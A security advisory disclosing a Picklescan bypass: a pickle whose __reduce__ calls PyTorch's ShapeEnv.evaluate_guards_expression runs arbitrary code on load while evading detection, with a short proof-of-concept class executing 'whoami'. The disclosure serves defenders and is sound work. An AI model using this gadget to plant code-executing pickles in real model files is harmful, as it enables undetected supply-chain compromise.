 ### Summary

Using torch.fx.experimental.symbolic_shapes.ShapeEnv.evaluate_guards_expression function, which is a pytorch library function to execute remote pickle file.

### Details

The attack payload executes in the following steps:

First, the attacker craft the payload by calling to torch.fx.experimental.symbolic_shapes.ShapeEnv.evaluate_guards_expression function in reduce method
Then when the victim after checking whether the pickle file is safe by using Picklescan library and this library doesn't dectect any dangerous functions, decide to pickle.load() this malicious pickle file, thus lead to remote code execution.

### PoC

```
import types
import torch.fx.experimental.symbolic_shapes as symbolic_shapes

class EvilTorchFxSymbolicShapesEvaluateGuardsExpression:
    def __reduce__(self):
        fake_self = str
        code = "__import__('os').system('whoami')"
        args = []
        return symbolic_shapes.ShapeEnv.evaluate_guards_expression, (fake_self, code, args)
```

### Impact

Who is impacted? Any organization or individual relying on picklescan to detect malicious pickle files inside PyTorch models.
What is the impact? Attackers can embed malicious code in pickle file that remains undetected but executes when the pickle file is loaded.
Supply Chain Attack: Attackers can distribute infected pickle files across ML models, APIs, or saved Python objects.

### Corresponding

https://github.com/FredericDT
https://github.com/Qhaoduoyu